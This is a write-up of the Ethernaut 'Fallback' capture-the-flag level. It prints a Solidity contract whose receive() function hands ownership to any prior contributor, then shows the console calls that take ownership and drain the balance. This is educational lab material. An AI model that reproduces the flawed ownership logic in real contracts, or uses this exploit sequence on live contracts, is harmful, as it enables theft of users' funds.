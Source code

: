 # Fallback
>You will beat this level if
>   1. you claim ownership of the contract
>   2. you reduce its balance to 0

>Things that might help
*How to send ether when interacting with an ABI
*How to send ether outside of the ABI
*Converting to and from wei/ether units
*Fallback methods

``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```

For this challenge, first, we are required to claim the ownership of this contract. Looking at the solidity code given to us, we can see that the code `owner = msg.sender` will be executed in two ways. 
One way is to transfer ether more than the contributions of the owner but that is not possible! (since owner's contribution is fairly large). What we will do is first contribute a small amount of ether and then send ether to this contract so that recieve function gets called and we can claim the ownership.

The receive function is similar to the fallback function. It gets called whenever the contract receives some ether. It is designed specifically to handle incoming ether without the need for a data call.
Executing the approach...

```
>await contract.contribute({value : 4})
```
```
>await contract.sendTransaction({value : 1})
```
```
>await contract.owner()
<'0x532600377959B703AA4AC2c468DeDe8FAA40B576'
```
and so the first step is done! Now don't forget to withdraw ether from this contract.
```
>await contract.withdraw()
```
```
>await getBalance("0xf246A7CD5d85F553ee44E3271Ad8bd1f77434e95")
<'0'
```
Viola! We can now submit the instance.

